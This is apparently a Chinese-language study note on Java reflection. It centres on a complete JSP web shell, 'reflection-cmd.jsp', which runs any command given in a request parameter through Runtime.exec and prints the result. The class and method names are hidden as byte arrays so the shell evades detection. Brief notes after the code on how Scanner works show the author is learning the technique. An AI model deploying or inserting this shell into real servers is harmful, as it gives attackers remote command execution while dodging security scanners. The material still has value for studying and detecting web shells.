


# 反射Runtime命令执行

**reflection-cmd.jsp示例代码：**

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.util.Scanner" %>

<%
    String str = request.getParameter("str");

    // 定义"java.lang.Runtime"字符串变量
    String rt = new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101}); // 解码字节数组构造字符串

    // 反射java.lang.Runtime类获取Class对象
    Class<?> c = Class.forName(rt);

    // 反射获取Runtime类的getRuntime方法
    Method m1 = c.getMethod(new String(new byte[]{103, 101, 116, 82, 117, 110, 116, 105, 109, 101}));

    // 反射获取Runtime类的exec方法
    Method m2 = c.getMethod(new String(new byte[]{101, 120, 101, 99}), String.class);

    // 反射调用Runtime.getRuntime().exec(xxx)方法
    Object obj2 = m2.invoke(m1.invoke(null, new Object[]{}), new Object[]{str});
   // 这里先调用 getRuntime 方法拿到 RUntime类实例对象，之后调用在其上调用 exec 方法

    // 反射获取Process类的getInputStream方法
    Method m = obj2.getClass().getMethod(new String(new byte[]{103, 101, 116, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109}));
    m.setAccessible(true);

    // 获取命令执行结果的输入流对象：p.getInputStream()并使用Scanner按行切割成字符串
    Scanner s = new Scanner((InputStream) m.invoke(obj2, new Object[]{})).useDelimiter("\\A");
    String result = s.hasNext() ? s.next() : "";

    // 输出命令执行结果
    out.println(result);
%>
```

前面的各种代码操作都没什么问题，不过最后这个 new Scanner 可以做个笔记：



注释告诉我们，这个方法会把来自流中的字节转换成字符，看起来和之前的 toByteArray 作用是一样的

然后有个 s.next()，这个方法用来从 Scanner 返回下一个完整的 token，没懂这个 token 什么意思。



但是返回值是字符串类型，猜测应该就是返回扫描器里面存放的字符串。